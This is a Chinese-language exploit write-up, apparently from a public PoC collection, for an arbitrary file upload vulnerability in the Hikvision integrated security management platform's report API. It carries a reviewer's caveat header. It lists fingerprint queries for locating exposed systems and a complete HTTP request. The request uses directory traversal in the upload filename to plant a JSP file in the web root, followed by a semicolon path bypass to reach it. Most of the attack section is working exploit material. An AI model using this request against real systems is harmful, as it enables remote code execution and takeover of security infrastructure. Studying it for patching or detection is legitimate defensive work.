




# Hikvision 综合安防管理平台 report 任意文件上传漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision综合安防管理平台SVM
- 本文讨论：svm/api/external/report路径穿越上传
- 版本、权限与配置前提：Linux路径通过env泄露/已知获得，写权限/JSP解析；版本未知
- 资料类型：源码位置/上传PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- env泄露没有对应请求，不能将完整链标无需额外前提
- Java源码只给类路径与图片，其中serivce拼写需按原包核，别直接纠正
- 回读使用分号路径绕过，需明确其是否额外鉴权条件；与files不同服务
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 源码/环境泄露路径/角色及修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Hikvision 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面


```
WEB-INF/classes/com/Hikvision/svm/controller/ExternalController.class
```



```
WEB-INF/classes/com/Hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```



构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```http
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/Hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```



```
/portal/ui/login/..;/..;/new.jsp
```




---

> 来源：Threekiii/Awesome-POC
